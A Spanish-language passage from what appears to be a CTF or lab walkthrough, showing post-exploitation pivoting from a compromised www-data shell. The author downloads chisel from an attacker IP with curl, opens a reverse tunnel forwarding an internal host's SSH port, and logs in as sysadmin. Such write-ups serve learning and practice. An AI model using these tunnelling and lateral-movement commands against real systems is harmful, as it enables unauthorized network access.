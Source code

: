```bash
www-data@3d56c33f6dd7:/$ cd /tmp
www-data@3d56c33f6dd7:/tmp$ curl http://[TU_IP]/chisel -o chisel
```
```bash
www-data@3d56c33f6dd7:/tmp$ curl http://10.9.242.217/chisel -o chisel
```
```bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8144k  100 8144k    0     0  91654      0  0:01:30  0:01:30 --:--:--  109k
```
Le otorgamos permisos de ejecución

```bash
www-data@3d56c33f6dd7:/tmp$ chmod +x chisel
```
Lo ejecutamos en nuestra máquina:

```bash
~$>./chisel server --reverse -p 6789
```
```bash
2021/08/24 13:28:00 server: Reverse tunnelling enabled
2021/08/24 13:28:00 server: Fingerprint YJAb4PvHPP98LLMeCwzvdvHPQPBcWWibsBY/eFUy4H0=
2021/08/24 13:28:00 server: Listening on http://0.0.0.0:6789
```
Y luego en la máquina víctima:

```bash
www-data@3d56c33f6dd7:/tmp$ ./chisel client 10.9.242.217:6789 R:2222:172.18.0.1:22
2021/08/24 18:28:43 client: Connecting to ws://10.9.242.217:6789
2021/08/24 18:28:44 client: Connected (Latency 192.044629ms)
```
Comprobamos que el puerto 2222 esté activo en nuestra máquina

```bash
~$> lsof -i:2222
```
```bash
COMMAND    PID         USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
chisel  214968 invertebrado    8u  IPv6 471556      0t0  TCP *:2222 (LISTEN)
```
De esta manera ya podemos conectarnos por ssh a la máquina víctima desde nuestra máquina usando las mismas credenciales que usamos al principio

```bash
~$> ssh sysadmin@127.0.0.1 -p 2222
```
```bash
The authenticity of host '[127.0.0.1]:2222 ([127.0.0.1]:2222)' can't be established.
ECDSA key fingerprint is SHA256:YWh6/YCN0RzHZZK5fdUZ2EB9I2CQSoW4XAZ5/V+CYUc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:2222' (ECDSA) to the list of known hosts.
sysadmin@127.0.0.1's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

263 packages can be updated.
181 updates are security updates.


Last login: Sat Nov 21 15:30:19 2020
sysadmin@ubuntu:~$ whoami
sysadmin
```
